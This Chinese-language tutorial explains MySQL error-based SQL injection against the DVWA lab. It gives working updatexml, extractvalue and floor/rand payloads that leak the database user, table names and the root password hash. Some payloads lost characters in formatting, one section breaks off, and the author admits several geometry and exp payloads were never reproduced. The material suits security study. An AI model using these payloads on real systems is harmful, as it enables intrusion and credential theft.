



## 0x00 报错注入攻击原理
数据库错误显示是指：数据库在执行时，遇到语法不对，会显示报错信息。在程序开发期间，开发者需要知道报错信息，方便进行调试，定位文件错误。  
特别是php在执行sql语句时一般会采用异常处理函数，捕获错误信息。其中mysqli_error()和mysqli_connect_error()会将语法错误信息显示到页面上。  
如果存在SQL注入且有报错信息返回，就可以采用报错注入。

## 0x01 报错注入代码分析
```php
// Check database
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or 
die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
```
在上面我们可以看到两个报错函数，会把错误信息显示到网页上。

## 0x02 报错注入攻击过程
在确定存在注入点后，我们首先获取数据库库名，可以用一个SQL中不存在的函数去爆库名。
```bash
mysql> select username,password from users where id=1 and info();
ERROR 1305 (42000): FUNCTION moonsec.info does not exist
```
原理是我们使用了数据库中不存在的函数，就会回显哪个库的 XX 方法不存在，这样我们就得到了当前数据库库名。  
利用updatexml函数的Xpath报错回显信息，我们可以得到很多数据库关键信息，包括用户和数据库版本等。
```bash
mysql> select * from users where user_id='1' and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'

mysql> select * from users where user_id='1' and (updatexml(1,concat(0x7e,(select version()),0x7e),1));
ERROR 1105 (HY000): XPATH syntax error: '~5.7.33-0ubuntu0.16.04.1~'

mysql> select * from users where user_id='1' and (updatexml(1,concat(0x7e,(select database()),0x7e),1));
ERROR 1105 (HY000): XPATH syntax error: '~dvwa~'
```
updatexml函数是MySQL中用于修改xml数据的函数，语法为：updatexml(xml_target, xpath_expr, new_value)。这里目的不是修改XML，而是通过提供无效的xpath_expr来触发错误。

## 0x03 为什么使用0x7e来包裹回显信息？
使用0x7e（波浪号 ~）包裹回显信息，一方面可以提高可读性，另一方面0x7e在MySQL中没有任何含义，可以避免与MySQL、XML和Xpath中的特殊符号发生冲突。  
像 @ 或 " 这样的符号在某些上下文中可能具有特殊含义，会导致解析错误或语法错误。使用 ~ 符号可以有效避免这些冲突，确保回显信息不受影响。

## 0x04 updatexml函数作用
updatexml() 函数是 MySQL 用于操作 XML 数据的函数，它的主要功能是根据指定的 XPath 表达式来修改 XML 文档中的内容。函数语法：
```sql
updatexml(XML_document, XPath_expression, new_value)
```
- XML_document：表示要处理的 XML 数据（通常是一个字符串）。
- XPath_expression：用于定位 XML 文档中的某个节点或属性的 XPath 表达式。
- new_value：表示将要插入的新的值，用来替换由 XPath 表达式定位的原内容。  
假设有一个XML文档如下，记录简单用户信息：
```xml
<users>
    <user>
        <id>1</id>
        <name>John</name>
    </user>
    <user>
        <id>2</id>
        <name>Jane</name>
    </user>
</users>
```
我希望修改其中用户 id=1 的名字，将其从 John 修改为 Jack。你可以使用 updatexml() 函数实现这个操作。修改语句：
```sql
SELECT updatexml('<users><user><id>1</id><name>John</name></user><user><id>2</id><name>Jane</name></user></users>',
                 '/users/user[id="1"]/name',
                 'Jack');
```
以上命令解读：
- XML 文档：<users>...</users> 是传递的 XML 数据。
- XPath 表达式：/users/user[id="1"]/name 是 XPath 表达式，用于定位 id=1 的用户的 name 节点。
- 新值：Jack 是想要插入的新名字。
执行结果：
```xml
<users>
    <user>
        <id>1</id>
        <name>Jack</name> <!-- 已修改 -->
    </user>
    <user>
        <id>2</id>
        <name>Jane</name>
    </user>
</users>
```
## 0x05 updatexml函数的弊端
采用updatexml报错函数只能显示32字符长度的内容，如果获取内容超过32字符长度，就要采用字符串截取方法，每次只获取32个字符的长度。

## 0x06 其他MySQL支持报错的函数
### 1. floor()
```sql
select * from users where user_id=1 and (select 1 from (select count(),concat(user(),floor(rand(0)2))x from information_schema.tables group by x)a);
```

### 2. extractvalue()
extractvalue() 函数的主要作用是从 XML 文档中提取特定节点的值。它使用 XPath 表达式来定位 XML 文档中的特定节点或属性，并返回相应的值。通过故意构造的无效 XPath 表达式引发错误，以便回显数据库用户信息。注意extractvalue函数传入两个值即可。  
```sql
select * from users where user_id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
```
### 3. updatexml()
updatexml函数上面介绍过了，是更新 XML 文档的一种方式，需要传入三个参数，利用Xpath错误来回显关键信息。
```sql
select * from users where user_id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
```
### 4. geometrycollection()
GEOMETRYCOLLECTION() 函数的作用是在 MySQL 中创建一个几何对象的集合。该函数允许将不同类型的几何对象（如 POINT、LINESTRING、POLYGON 等）组合成一个集合。几何对象可以是点、线、或多边形等，这些对象存储在一个集合中用于空间数据操作。正常使用方法如下述第一个sql语句：
```sql
select geometrycollection(point(1,1),point(1,2));

select * from test where id=1 and geometrycollection((select * from(select * from(select
user())a)b));
```
### 5.multipoint()
MULTIPOINT() 是 MySQL 中用于表示多个点（POINT）的几何函数，通常用于地理信息系统（GIS）中处理多点集合。每个点由一个 X 坐标（经度）和 Y 坐标（纬度）组成，MULTIPOINT 是多个 POINT 组成的集合。
```sql
select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));
```
### 6.polygon()
POLYGON() 是 MySQL 中用于表示多边形的几何函数，通常用于地理信息系统（GIS）中的空间数据操作。一个 POLYGON 是由一系列有序的坐标点组成的闭合形状，其中第一个点和最后一个点必须相同，以形成封闭的多边形。  
由于 POLYGON() 函数期望接收几何点数据，但传入了字符串，因此会引发错误。这个错误可能会包含一些回显信息，从而帮助攻击者通过错误信息了解系统的内部结构，例如当前的数据库用户名。  
```sql
select * from users where user_id=1 and polygon((select * from(select * from(select user())a)b));
```
### 7.multipolygon()
MULTIPOLYGON() 是 MySQL 中的一个空间函数，用于表示多个多边形的几何集合。每个 POLYGON 是一个闭合的几何形状，而 MULTIPOLYGON 则是由多个 POLYGON 组成的集合。它在地理信息系统（GIS）中常用于表示由多个分散区域组成的复杂地理特征，比如一组岛屿或分隔的城市区域。
```sql
select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));
```
### 8. linestring()
LINESTRING() 是 MySQL 中的空间函数，用于表示一条由多个点组成的线条。它在地理信息系统（GIS）中常用于表示直线或曲线路径，例如道路、河流或边界线等线性地理特征。
```sql
select * from test where id=1 and linestring((select * from(select * from(select user())a)b));
```
### 9.multilinestring()
MULTILINESTRING() 函数是 MySQL 中的一个空间函数，用于创建多个 LINESTRING 对象的集合，每个 LINESTRING 代表一条由多个点组成的线。
```sql
select * from test where id=1 and multilinestring((select * from(select * from(select
user())a)b));
```
### 10.exp()
exp() 是 MySQL 的指数函数，计算输入参数的指数值（以自然数 e 为底）。如果传入的值不合法或超出范围，可能会抛出错误。这条 SQL 语句的设计目的是通过不合理的函数调用（exp(~(...))）引发 SQL 错误，并通过错误回显机制获取数据库的用户信息。exp() 函数期望数值输入，但传递的是数据库用户信息字符串（USER() 的结果），导致错误。位操作符 ~ 只能用于数值，而在这里被应用到字符串上，也会引发错误。
```sql
select * from users where user_id=1 and exp(~(select * from(select user())a));
```
```bash
mysql> select * from users where user_id=1 and exp(~(select * from (select user()) a));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select `a`.`user()` from (select user() AS `user()`) `a`)))'
```
### 11.小结
上面的通过创建几何对象进行报错注入，还有通过exp等数学运算进行报错注入并没有复现出来，应该是数据库版本问题，希望以后遇到可以复现出来。
## 0x07 嵌套查询别名
嵌套查询：(SELECT * FROM (SELECT USER()) a)：  
SELECT USER()：这是 MySQL 的内置函数，返回当前数据库的用户。  
SELECT * FROM (SELECT USER()) a：嵌套查询的作用是返回 USER() 的结果，并将其命名为 a。这种嵌套查询在 SQL 注入中经常用来混淆查询，但最终返回的仍然是 USER() 函数的结果。  
a作为子查询的别名，作为外部查询中的一个表来引用子查询的结果，别名的应用事例如下：
```bash
mysql> select * from (select user()) a;
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)

mysql> select a.user_info from (select user() as user_info) a;
+----------------+
| user_info      |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)
```
比如有两个表的情况下，我们把表1命别名a，表2命别名b，则查询语句可以这么写：
```sql
SELECT a.user_info, e.name, e.salary FROM (SELECT USER() AS user_info) a, employees e;

#查询结果
| user_info     | name  | salary |
|---------------|-------|--------|
| root@localhost| John  | 5000   |
| root@localhost| Jane  | 6000   |

```
## 0x08 黑盒下的报错注入
在黑盒模式下的报错注入：首先获取当前库，通过库获取表名，接着通过表名获取字段，最后获取字段内容。  
```sql
'1'and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+
```
得到库名dvwa。下面我们要获取账号和密码，获取账号和密码需要 root 用户才有足够大的权限。
```sql
select authentication_string from mysql.user limit 1;
```
```bash
mysql> select authentication_string from mysql.user;
+-------------------------------------------+
| authentication_string                     |
+-------------------------------------------+
| *6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9 |
| *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE |
| *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE |
| *C032CD8255B8ADF7AF529689127ED91A690EF518 |
+-------------------------------------------+
4 rows in set (0.01 sec)

mysql> select authentication_string from mysql.user limit 1;
+-------------------------------------------+
| authentication_string                     |
+-------------------------------------------+
| *6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9 |
+-------------------------------------------+
1 row in set (0.00 sec)
```
在网页上返回该内容，由于长度超过了32字符，所以需要分段显示返回。

```bash
mysql> select(updatexml(1,concat(0x7e,(select (select authentication_string from mysql.user limit 1 )),0x7e),1));
ERROR 1105 (HY000): XPATH syntax error: '~*6BB4837EB74329105EE4568DDA7DC6'

# 缺少中间的select也可以，返回内容的报错内容是一样的

mysql> select(updatexml(1,concat(0x7e,(select authentication_string from mysql.user limit 1 ),0x7e),1));
ERROR 1105 (HY000): XPATH syntax error: '~*6BB4837EB74329105EE4568DDA7DC6'

# 接下来返回32-40的长度部分，拼接起来才算完整的密码
mysql> select(updatexml(1,concat(0x7e,(select (substring((select authentication_string from mysql.user limit 1),32,40))),0x7e),1));
ERROR 1105 (HY000): XPATH syntax error: '~7ED2CA2AD9~'

mysql> select(updatexml(1,concat(0x7e,(substring((select authentication_string from mysql.user limit 1),32,40)),0x7e),1));
ERROR 1105 (HY000): XPATH syntax error: '~7ED2CA2AD9~'
```
## 0x09 没有长度限制的floor报错函数详解
采用floor函数进行报错注入，没有长度限制，但是payload较为复杂。
```sql
and(select 1 from(select count(*),concat((select (select (SELECT distinct
concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database()
LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from
information_schema.tables group by x)a)
```
payload解读：  
1. select distinct：从数据库中获取数据，确保查询返回结果唯一，防止重复的表名；
2. concat(0x7e, table_name, 0x7e)：字符串拼接，table_name 是从 information_schema.tables 中获取的表名；
3. limit 0,1：返回结果集中的第一行；
4. 以下payload为获取当前库的第一个表名；
```sql
mysql> select distinct concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='dvwa';
+------------------------------+
| concat(0x7e,table_name,0x7e) |
+------------------------------+
| ~guestbook~                  |
| ~users~                      |
+------------------------------+
mysql> select distinct concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='dvwa' limit 0,1;
+------------------------------+
| concat(0x7e,table_name,0x7e) |
+------------------------------+
| ~guestbook~                  |
+------------------------------+
```
5. 再向外一层

```sql
mysql> select distinct concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='dvwa' limit 0,1;
+------------------------------+
| concat(0x7e,table_name,0x7e) |
+------------------------------+
| ~guestbook~                  |
+------------------------------+
1 row in set (0.00 sec)

mysql> select(select distinct concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='dvwa' limit 0,1);
+-------------------------------------------------------------------------------------------------------------------+
| (select distinct concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='dvwa' limit 0,1) |
+-------------------------------------------------------------------------------------------------------------------+
| ~guestbook~                                                                                                       |
+-------------------------------------------------------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql> select(select(select distinct concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='dvwa' limit 0,1)) from information_schema.tables limit 0,1;
+---------------------------------------------------------------------------------------------------------------------------+
| (select(select distinct concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='dvwa' limit 0,1)) |
+---------------------------------------------------------------------------------------------------------------------------+
| ~guestbook~                                                                                                               |
+---------------------------------------------------------------------------------------------------------------------------+
mysql> select count(*),concat((select(select(select distinct concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='dvwa' limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2)) x;

+----------+--------------+
| count(*) | x            |
+----------+--------------+
|        1 | ~guestbook~0 |
+----------+--------------+

mysql> select count(*),concat((select(select(select distinct concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='dvwa' limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2)) x from information_schema.tables group by x;

ERROR 1062 (23000): Duplicate entry '~guestbook~1' for key '<group_key>'

mysql> select 1 from (select count(*),concat((select(select(select distinct concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='dvwa' limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2)) x from information_schema.tables group by x) a;

ERROR 1062 (23000): Duplicate entry '~guestbook~1' for key '<group_key>'
```


payload拆解：
```sql
(
    select 1 from 
    (
    select count(*), concat(
        (
            select (
                select (
                SELECT distinct concat(0x7e, table_name, 0x7e)
                FROM information_schema.tables 
                WHERE table_schema=database() 
                LIMIT 0,1
            )
            ) from information_schema.tables limit 0,1
        ), floor(rand(0)*2)
    )
     x 
    from information_schema.tables 
    group by x
    )
     a
)

```
## 0x10 为什么会触发Duplicate entry错误？
这是因为 SQL 注入的 Payload 中使用了 group by 和随机数 rand() 的组合，这些操作在 SQL 执行过程中可能导致分组时的唯一性冲突。具体原因如下：  
首先，使用了 concat() 和 rand()。将随机数和表名拼接在一起。这种组合在分组时会制造出重复的值，导致 MySQL 试图将相同的拼接结果多次插入或处理。当 rand(0) 返回相同的随机数时，多次执行的查询可能会产生重复的数据（如 ~guestbook~1），从而导致唯一性冲突。  
其次是 group by 引发的错误。在注入攻击中，group by 操作经常与随机数结合使用，以触发 MySQL 内部的错误处理机制。当 MySQL 试图对带有相同值的行进行分组时，如果某些列有唯一性约束（如主键或唯一索引），则会发生冲突。在这种情况下，~guestbook~1 的条目可能已经存在，当再次生成相同的随机数并试图处理相同的表名时，就会触发唯一性约束冲突，导致 Duplicate entry 错误。

## 0x11 具体原理
### 1.rand（）函数
rand(seed) 是 MySQL 中的伪随机数生成函数，返回介于 0 和 1 之间的随机数。  
如果提供了种子（例如 rand(0)），每次调用该函数都会返回相同的伪随机数。  

### 2.group by（）工作机制
group by 用于将具有相同值的行组合在一起，适用于数据聚合和分组。  
如果我们在 group by 中使用随机数，那么当 rand() 返回相同的值时，多个行可能会被分组在一起。

### 3.floor rand和group by报错机制
以下原理参照安全脉搏文章，链接：https://www.secpulse.com/archives/140616.html

## 0x11 关于floor报错注入，你真的懂了吗？
payload语句：
```sql
select count(*) from users group by concat(database(),floor(rand(0)*2));

select count(*),concat(database(),floor(rand(0)*2)) as x from users group by x;
```
它们表达的意思是一样的，第一个中的 as x 其实就是concat(database(),floor(rand(0)*2))的代指（别名），这两个SQL语句表达的意思并没什么区别。

让我们瞅瞅它报了什么错：
```sql
ERROR 1062 (23000): Duplicate entry 'security1' for key 'group_key'
```
它说'group_key'的主键'security1'重复了，嗯？'security1'从哪里来的？哪个表的主键重复了？虽然刚开始，咱们还不知道原理，但是可以看到报错提示语句中的数据库函数已经被执行了。  
先解读floor(rand(0)*2)，其中rand是返回随机数，括号中可以设置随机数种子，让每次返回的内容一样。floor是向下取整，返回不大于当前数的最大整数。floor(rand(0)*2)每次的结果如下：  


## 0x12 group by , count(*) 和 rand()
咱们再来说这个count(*)，这是一个聚合函数，返回值的数目，它与count()的区别是它不排除NULL。  
咱们通过select count(*) from users group by username；这个查询语句来了解下group by的工作过程。 
group by在执行时，会依次取出查询表中的记录并创建一个临时表，group by的对象便是该临时表的主键。如果临时表中已经存在该主键，则将值加1，如果不存在，则将该主键插入到临时表中，注意是插入！  

为什么报了主键重复的错误了呢？  

因为还有一个最重要的特性，就是group by与rand()使用时，如果临时表中没有该主键，则在插入前rand()会再计算一次（也就是两次，但有些博客写的是多次，这个多次到底是几次并不知道，但是以两次来理解下面的实验都能说的通）。就是这个特性导致了主键重复并报错。  
当group by 取第一条from 表记录时，此时group by的是'security0'，发现临时表中并没有'security0'的主键，注意，这个时候rand(0)*2会再计算一次，经floor()后，率先插入临时表的主键不是security0，而是security1，并计数1。  

然后取第二条记录，第二条记录group by 的key中的01仍由floor(rand(0)*2)继续计算获得，也就是security1。此时临时表中已经有security1的主键了，所以count(*)直接加1就可以。  

继续从from的表中取第三条记录，再次计算floor(rand(0)*2)，结果为0，与database()拼接为security0，临时表的主键中并不存在，在插入前，floor(rand(0)*2)又计算一次，拼接后就是secruity1，但是是直接插入，即使临时表中已经有了主键security1也硬要插入，从而导致主键重复报错，也就是：ERROR 1062 (23000): Duplicate entry 'security1' for key 'group_key'。  

总结：  
最后一句话总结下：floor()报错注入的原因是group by在向临时表插入数据时，由于rand()多次计算导致插入临时表时主键重复，从而报错，又因为报错前concat()中的SQL语句或函数被执行，所以该语句报错且被抛出的主键是SQL语句或函数执行后的结果。  
参考文章链接：https://www.secpulse.com/archives/140616.html